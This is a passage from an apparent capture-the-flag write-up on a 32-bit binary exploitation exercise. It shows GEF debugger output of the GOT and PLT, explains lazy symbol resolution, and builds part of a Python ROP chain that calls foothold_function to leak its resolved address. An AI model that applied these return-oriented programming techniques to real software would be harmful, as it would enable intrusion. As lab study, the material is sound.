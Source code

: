 ```asm
gef➤  got

GOT protection: Partial RelRO | GOT functions: 10
 
[0x804a00c] read@GLIBC_2.0  →  0xf7e5db60
[0x804a010] printf@GLIBC_2.0  →  0xf7dbc2a0
[0x804a014] free@GLIBC_2.0  →  0x80484e6
[0x804a018] malloc@GLIBC_2.0  →  0xf7deed50
[0x804a01c] puts@GLIBC_2.0  →  0xf7dd9c30
[0x804a020] exit@GLIBC_2.0  →  0x8048516
[0x804a024] foothold_function  →  0x8048526 -------------------------------------------------
[0x804a028] __libc_start_main@GLIBC_2.0  →  0xf7d86df0  				    |	
[0x804a02c] setvbuf@GLIBC_2.0  →  0xf7dda420						    |
[0x804a030] memset@GLIBC_2.0  →  0xf7eb9ad0						    |
gef➤  x/4i 0x8048526						    			    |
   0x8048526 <foothold_function@plt+6>:	push   0x30     <------------------------------------
   0x804852b <foothold_function@plt+11>:	jmp    0x80484b0  ------------------------
   0x8048530 <__libc_start_main@plt>:	jmp    DWORD PTR ds:0x804a028	        	 |
   0x8048536 <__libc_start_main@plt+6>:	push   0x38				         |
gef➤  x/4i 0x80484b0						    			 |
   0x80484b0:	push   DWORD PTR ds:0x804a004       <--- linkmap hdr----------------------   			        
   0x80484b6:	jmp    DWORD PTR ds:0x804a008       <--- _dl_runtime_resolve_avx()
   0x80484bc:	add    BYTE PTR [eax],al						    |
   0x80484be:	add    BYTE PTR [eax],al						    |
gef➤  
```


So we want to call the foothold function so that the got is updated and holds the actual address of foothold_function (after it is resolved and loaded into the program)

Let's update our ROP chain accordingly in our python script:

```python
fhold_addr = p32(elf.symbols['plt.foothold_function'])
#print("fhold fxn is at:" , fhold_addr)

rop_chain = [
        fhold_addr,          # first, call foothold_function, so that it's address in memory is linked and resolved in the got
        b'shed'
        ]
```

Let's run it and see if got updates. Insert breakpoint at the call to foothold_function, then step through until the got has been updated and holds the resolved foothold_function address. 

```asm
gef➤  got
[0x804a024] foothold_function  →  0xf7f7177d
```

```asm
gef➤  disass foothold_function
Dump of assembler code for function foothold_function:
   0xf7f7177d <+0>:	push   ebp
   0xf7f7177e <+1>:	mov    ebp,esp
   0xf7f71780 <+3>:	push   ebx
   0xf7f71781 <+4>:	sub    esp,0x4
   0xf7f71784 <+7>:	call   0xf7f71a18 <__x86.get_pc_thunk.ax>
   0xf7f71789 <+12>:	add    eax,0x1877
   0xf7f7178e <+17>:	sub    esp,0xc
   0xf7f71791 <+20>:	lea    edx,[eax-0x15d0]
=> 0xf7f71797 <+26>:	push   edx
   0xf7f71798 <+27>:	mov    ebx,eax
   0xf7f7179a <+29>:	call   0xf7f71640 <puts@plt>
```